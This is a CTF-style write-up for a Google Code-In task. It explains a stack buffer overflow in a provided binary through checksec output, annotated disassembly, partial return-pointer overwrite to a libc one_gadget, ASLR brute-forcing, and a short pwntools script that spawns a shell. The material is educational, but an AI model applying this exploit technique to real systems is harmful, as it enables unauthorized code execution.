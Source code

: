 +++
title = "GCI - Fedora Project - Exploiting a Buffer Overflow Vulnerability"
date = 2019-12-15
aliases = ["/posts/5df6fd3b0898260951d4389b-gci-fedora-project-exploiting-a-buffer-overflow-vulnerability"]
[taxonomies]
tags = ["google-code-in", "binary-exploitation", "buffer-overflow", "aslr", "rce"]
categories = ["ctf-writeups"]
+++

# Challenge

We are given a binary to exploit. By running `checksec` on it, we see that the binary has the following protections:
[show-line-numbers]: false
```Plaintext
Canary                        : No
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```

Because the binary has NX, we cannot place executable shell code in a buffer and then jump to it. PIE allows the code 
section of the binary to be located anywhere in memory. This means that we don't know the address of functions within 
the binary; however, we still know relative offsets.


## Reverse Engineering

```
Dump of assembler code for function main:
   0x0000000000001145 <+0>:     push   rbp                                  # Setup Stack
   0x0000000000001146 <+1>:     mov    rbp,rsp                              
   0x0000000000001149 <+4>:     sub    rsp,0x110                            # Allocate 0x110 bytes on stack
   0x0000000000001150 <+11>:    mov    DWORD PTR [rbp-0x104],edi            # Copies edi into stack offset 0x104
   0x0000000000001156 <+17>:    mov    QWORD PTR [rbp-0x110],rsi            # Copies rsi into stack offset 0x110
   0x000000000000115d <+24>:    mov    rax,QWORD PTR [rbp-0x110]            # Copies value of pointer into rax
   0x0000000000001164 <+31>:    add    rax,0x8                              # Adds size_t
   0x0000000000001168 <+35>:    mov    rdx,QWORD PTR [rax]                  # Copies the value of the pointer [rax + 8] into rdx
   0x000000000000116b <+38>:    lea    rax,[rbp-0x100]                      # Loads the address of [rbp - 0x100] into rax
   0x0000000000001172 <+45>:    mov    rsi,rdx                              # rsi = rdx
   0x0000000000001175 <+48>:    mov    rdi,rax                              # rdi = rax
   0x0000000000001178 <+51>:    call   0x1030 <strcpy@plt>                  # Calls strcpy(rsi, rdi) ; strcpy ([rbp - 0x100], argv[1])
   0x000000000000117d <+56>:    lea    rax,[rbp-0x100]                      # Loads address of [rbp-0x100] into rax
   0x0000000000001184 <+63>:    mov    rdi,rax                              # rdi = rax
   0x0000000000001187 <+66>:    call   0x1040 <puts@plt>                    # puts(rdi)
   0x000000000000118c <+71>:    mov    eax,0x0                              # return 0
   0x0000000000001191 <+76>:    leave                                       
   0x0000000000001192 <+77>:    ret                                         
End of assembler dump.
```

<!-- more --> 

We can see that `argv[1]` is copied into a 0x100 byte buffer on the stack. However, there are no checks on the size of `argv[1]`. This is plainly a stack overflow vulnerability. 

## Exploit

Now that we have an understanding of what the binary does, we can construct a payload to get code execution. Since the canary is not enabled, we can overwrite the return address. However, because of PIE and ASLR, we don't have any clear targets to jump to.


### Where do we jump?

The binary is dynamically linked and uses the system libc. We can find targets within the binary, when jumped to, result in a call to `execve("/bin/sh", NULL, NULL)` and lead to "a shell".  The tool [one_gadget](https://github.com/david942j/one_gadget) finds offsets to these one gadgets within a given libc binary. Running `one_gadget libc.so.6` gives the following output:

![](5df7042c0898260951d4389c.png)


However, we don't know the base address that libc is loaded at.


### How?

Generally, the libc runtime handles initializes itself before calling `main`. This means that when `main` returns, we end up within libc. In fact, in this [asciinema](https://asciinema.org/a/JRs1KT1HQCoDUSDAmW1r6CCcC), we see that `main` returns to `__libc_start_main` within libc. 

If we overflow the buffer, we can overwrite this address. We could overwrite the entire return pointer, but what if we only overwrote it partially? This is known as a partial overwrite. Since all functions within libc have the same base address, we can overwrite the lower bytes of the return pointer to jump to any known offset within libc.

### One small problem

When `strcpy` is called, it adds a null byte to the end of the destination buffer. If we attempt a partial overwrite, this will result `0x00` being placed within the return pointer.

To overcome this, we can bruteforce ASLR by repeatedly running the program until libc is loaded in a position that matches the overwritten return pointer. We need to bruteforce 1.5 bytes (because the one_gadget is `4f2c5`, we only need to bruteforce the upper half of `0x?4` and the null byte before it). This means that, on average, we will need to execute the program `4096` times before successfully reaching a shell.

## Full Script

{{ asciinema(id="vaUS0kLREa4r92cFJuaipXW5u") }}

```Python
from pwn import *

while True:
        try:
                r = process(['./exploitme', 'A'*264 + '\xc5\xf2\x04'])
                r.sendline('ls')
                print(r.can_recv())
                r.interactive()
        except EOFError:
                pass
```


> This is a writeup for this [Google Code-In task](https://codein.withgoogle.com/dashboard/task-instances/5481487256780800/)
